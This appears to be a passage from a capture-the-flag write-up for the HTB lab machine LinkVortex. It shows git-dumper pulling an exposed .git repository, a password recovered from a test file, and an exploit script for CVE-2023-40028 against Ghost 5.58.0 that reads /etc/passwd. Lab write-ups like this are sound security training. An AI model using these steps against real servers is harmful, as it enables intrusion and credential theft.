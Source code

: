 ![](images/Pasted%20image%2020241209031428.png)
Then we successfully get the `.git`

Dump git repo on dev subdomain with git-dumper.
`git-dumper http://dev.linkvortex.htb/.git/ ./git-repo-dump`

Then we can found the admin certification 
`./git-repo-dump/ghost/core/test/regression/api/admin/authentication.test.js`

```
it('complete setup', async function () {
            const email = 'test@example.com';
            const password = 'OctopiFociPilfer45';

            const requestMock = nock('https://api.github.com')
                .get('/repos/tryghost/dawn/zipball')
                .query(true)
                .replyWithFile(200, fixtureManager.getPathForFixture('themes/valid.zip'));
```

We have known the version of ghost `v5.58.0`
By searching this version, I found `Ghost vulnerable to arbitrary file read via symlinks in content import`
`CVE-2023-40028`
Then we can just get the exploit script and run it, get the file shell.
```
./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
WELCOME TO THE CVE-2023-40028 SHELL
file> /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
```